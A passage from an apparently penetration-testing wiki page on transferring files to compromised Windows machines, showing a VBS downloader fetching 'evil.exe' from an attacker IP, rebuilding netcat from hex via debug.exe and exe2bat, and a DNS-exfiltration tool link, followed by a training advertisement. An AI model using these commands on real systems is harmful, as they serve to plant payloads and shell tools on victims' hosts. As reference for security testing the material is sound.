 ```bash
cscript wget.vbs http://10.11.0.5/evil.exe evil.exe
```

## Debug.exe

The `debug.exe` program not only allows inspection of binaries but also has the **capability to rebuild them from hex**. This means that by providing an hex of a binary, `debug.exe` can generate the binary file. However, it's important to note that debug.exe has a **limitation of assembling files up to 64 kb in size**.

```bash
# Reduce the size
upx -9 nc.exe
wine exe2bat.exe nc.exe nc.txt
```

Then copy-paste the text into the windows-shell and a file called nc.exe will be created.

* [https://chryzsh.gitbooks.io/pentestbook/content/transfering_files_to_windows.html](https://chryzsh.gitbooks.io/pentestbook/content/transfering_files_to_windows.html)

## DNS

* [https://github.com/62726164/dns-exfil](https://github.com/62726164/dns-exfil)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**Resources Training AWS Red Team Expert (ARTE)**](https://training.khulnasoft.com/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**Resources Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.khulnasoft.com/courses/grte)

<details><summary>Support Resources</summary></details>
{% endhint %}

